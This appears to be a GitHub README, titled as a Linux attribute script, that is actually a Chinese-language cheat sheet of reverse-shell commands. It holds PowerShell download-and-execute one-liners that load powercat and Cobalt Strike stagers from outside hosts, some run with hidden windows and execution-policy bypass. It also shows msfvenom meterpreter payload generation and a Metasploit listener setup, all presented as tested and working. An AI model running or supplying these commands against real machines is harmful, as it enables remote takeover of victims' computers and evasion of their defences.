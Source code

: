 # CheckLinux
linux的基本属性脚本
———————————————————————————————————————————————————————————————
# cmd窗口下利用Powershell反弹NC shell 
亲测所有机器都适用
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
# cmd窗口下利用Powershell反弹CobaltStrike shell
windows10 经常性不能用。windows 2008R2以下百分百适用。
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"  
# cmd窗口下反弹MSF shell

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
# MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
# 目标机的操作

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps'
